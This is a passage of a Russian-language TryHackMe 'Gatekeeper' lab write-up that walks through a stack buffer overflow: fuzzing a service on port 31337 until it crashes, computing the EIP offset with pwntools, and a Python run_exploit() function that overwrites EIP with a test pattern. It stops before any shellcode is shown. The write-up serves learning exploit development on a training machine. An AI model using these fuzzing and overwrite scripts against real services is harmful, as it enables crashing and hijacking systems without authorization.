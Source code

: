 Приложение упало при отправке 200 байт
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ python3 x.py
[+] Opening connection to 192.168.56.124 on port 31337: Done
[*] Sending 0 bytes
[*] Sending 100 bytes
[*] Sending 200 bytes
[+] Server stopped responding at [200] bytes
[*] Closed connection to 192.168.56.124 port 31337
```

И сразу смотрю адреса регистров, т.к. они не изменятся в дальнейшем  
<img width="1919" height="1015" alt="image" src="https://github.com/user-attachments/assets/0e70fc35-713b-4c2d-b4fa-272fc6b8d3e1" />  

В функции `get_offset()` указываю значение `EIP` и запускаю скрипт снова  
```python
def get_offset():
    eip_value = 0x616D6261
    offset = cyclic_find(p32(eip_value))
    log.success(f"Offset [{offset}] bytes")

# ==================== MAIN =====================
if __name__ == '__main__':
    #run_fuzzer()
    get_offset()
```

Offset [146] bytes
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ python3 x.py
[+] Offset [146] bytes
```

Теперь нужно убедиться, что я контролирую `EIP` и `stack`  
Корректирую в скрипте функцию `run_exploit()`  
Если правильно всё рассчитал, то должен получить `42424242` в `EIP` и 3 строки символов `C` в стеке
```python
def run_exploit():
    offset = 146
    junk   = b'A' * offset
    EIP    = b'B' * 4
    stack  = b'C' * 12

    #exclude_list = ['\\x00']
    #stack = ''.join(f'\\x{x:02x}' for x in range(1, 256) if f'\\x{x:02x}' not in exclude_list)

    payload = b''.join([
        junk,
        EIP,
        stack,
    ])

    try:
        io = start()
        io.sendline(payload)
        try:
            response = io.recv(timeout=RESPONSE_TIMEOUT)
            if response:
                log.warning(f"Server responded unexpectedly: {response[:100]}...")
            else:
                log.success("Server stopped responding - likely crashed!")
        except EOFError:
            log.success("Connection closed by server - likely crashed!")

```